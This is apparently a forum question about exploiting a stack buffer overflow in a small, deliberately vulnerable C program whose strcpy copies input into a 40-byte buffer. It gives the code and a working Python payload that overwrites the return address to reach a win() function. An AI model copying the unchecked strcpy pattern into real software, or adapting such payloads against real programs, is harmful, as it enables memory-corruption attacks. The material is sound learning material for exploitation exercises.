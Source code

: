 
# Exploit buffer overflow for strcpy()

I would like to understand a problem I am facing while trying to exploit a buffer overflow for the c below

#include <stdio.h>
#include <string.h>
#include <stdlib.h>


int win()
{
    printf("Great Job\n");
    exit(0);
}


int mycpy(char* input)
{
    char buffer[40];
    strcpy(buffer, input);
    return strlen(buffer);
}


int main()
{
    char buffer[256];
    unsigned long long target;

    scanf("%256s", buffer);
    printf("You sent: %s\n", buffer);
    mycpy(buffer);
    exit(1);

}


If I run the payload in the following way
python3 -c 'print ("a" * 56 + "\x66\x11\x40\x00")' | ./p_5

I got the "Great Job" printed on the console and so the attack is successful
But if I pass the same string (like below) from the command line, I just get a segmentation fault.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x66\x11\x40\x00

For which reason the program is behaving differently with the same input?
Thanks in advance

        